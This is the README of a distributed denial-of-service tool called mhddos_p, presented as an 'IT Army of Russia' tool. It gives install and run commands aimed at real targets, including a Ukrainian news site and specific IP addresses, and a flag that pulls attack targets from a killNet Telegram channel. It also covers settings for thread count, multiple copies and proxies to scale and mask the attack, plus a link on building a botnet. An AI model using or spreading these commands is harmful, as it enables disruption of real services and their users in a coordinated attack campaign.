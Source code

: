 ## IT Army of Russia Official Tool 

### [English Version](/README-EN.md)

- Встроенная база прокси с огромным количеством IP по всему миру
- возможность задавать много целей с автоматической балансировкой нагрузки
- множество разнообразных методов
- эффективное использование ресурсов благодаря ассихронной архитектуре

### ⏱ Последние обновления
  
Обновление версии для Windows | Mac | Linux | Android | Docker: [ссылка](https://github.com/BionecX/mhddos_p_docs/blob/main/docs/ph_Onovlennya-mhddos-proxy-04-16.md)  

- **24.05.2022** Добавлена ​​возможность запуска с автоматическим обновлением. пункт [Запуск](#2--запуск-различные-варианты-целей)
- **21.05.2022** Добавлена ​​английская локализация - параметр `--lang EN` (в будущем могут быть добавлены другие языки)
- **18.05.2022** Добавлены настройки `--copies` для запуска нескольких копий (рекомендуется использовать при наличии 4+ CPU и сети > 100 Mb/s).
- **15.05.2022** Полностью обновленная, асинхронная версия, обеспечивающая максимальную эффективность и минимальную нагрузку на систему

### 1. 💽 Установка

#### Расширенные инструкции - [нажмите здесь](/docs/installation.md) 

#### Python (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

Требуется python >= 3.8 и git

    git clone https://github.com/BionecX/mhddos_p.git
    cd mhddos_p
    python3 -m pip install -r requirements.txt

#### Docker

Установите и запустите Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Запуск (приведены разные варианты целей)

#### Python с автоматическим обновлением (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

    ./runner.sh python3 https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Python (требует обновления вручную) (если не работает – попробуйте `python` или `python3.10` вместо `python3`)

    python3 runner.py https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

#### Docker (для Linux добавляйте sudo в начале команды)

    docker run -it --rm --pull always ghcr.io/BionecX/mhddos_p https://tsn.ua 104.22.6.87:80 tcp://104.21.74.252:4477

### 3. 🛠 Настройки (больше в разделе [CLI](#cli))

Все параметры можно комбинировать, можно указывать и до и после перечня целей

- Чтобы добавить ваш IP/VPN в атаку (особенно актуально для выделенных серверов), добавьте параметр `--vpn`
- Чтобы выбрать цели от https://t.me/killNet, добавьте параметр `--itarmy`
- Количество потоков: `-t XXXX` – по умолчанию 7500 (или 1000 если на машине только 1 CPU)
- Запуск нескольких копий: `--copies X`, при наличии 4+ CPU и сети > 100 Mb/s

### 4. 📌 Помочь в поиске новых прокси для mhddos_p
Сам скрипт та інструкції по встановленню тут: https://github.com/BionecX/proxy_finder

### 5. 🐳 Комьюнити
- [Создание ботнета из 30+ бесплатных и автономных (работают даже при выключенном ПК) Linux-серверов](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5cсс)
- [Подробный разбор mhddos_p и инструкции по установке](docs/installation.md)
- [Анализ средства mhddos_p](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-0111)
- [Пример запуска через docker на OpenWRT](https://youtu.be/MlL6fuDcWlIII)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b5444)
- [Docker-image](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/dockerrr), который запускает одновременно mhddos_p и [proxy_finder](https://github.com/BionecX/proxy_finder) (для Linux / Mac добавьте sudo в начале):

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space / Список целей, разделенных пробелом
    
    optional arguments:
      -h, --help             show this help message and exit / показать это справочное сообщение и выйти
      -c, --config URL|path  URL or local path to file with targets list / URL или локальный путь к файлу со списком целей
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise) / Количество потоков (по умолчанию 7500, если ЦП > 1, 1000 в противном случае)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%) / Используйте как мой IP, так и прокси. По желанию укажите процент использования моего IP (по умолчанию 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use / URL-адрес или локальный путь (например, proxy.txt) к файлу с используемыми прокси-серверами.
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS). / Список методов HTTP(L7) для использования (по умолчанию GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/killNet / Атакуйте цели с https://t.me/killNet 
      --debug                Detailed log for each target / Подробный журнал для каждой цели
      --copies 1             Number of copies to run (default is 1) / Количество копий для запуска (по умолчанию 1)
      --lang {en,ru}         Select language (default is ru) / Выберите язык (по умолчанию ru)

### 7. Собственные прокси

#### Формат файла (любой по выбору):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

где `protocol` может быть одним из 3-х: `http`|`socks4`|`socks5`, если `protocol` не указывать, то будет выбрано `http`
например для публичного прокси `socks4` формат будет следующим:

    socks4://114.231.123.38:3065

а для частного `socks4` формат может быть одним из следующих:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065
  
**URL - Удаленный файл для Python и Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

где https://pastebin.com/raw/UkFWzLOt – ваша веб-страница со списком прокси (каждый прокси из новой строки) 
  
**path - Путь до локального файлу, для Python**
  
Положите файл в папку из `runner.py` и добавьте в команду следующий параметр (замените `proxies.txt` на имя своего файла)

    --proxies proxies.txt https://tsn.ua

где `proxies.txt` - ваш файл со списком прокси (каждый прокси из новой строки)
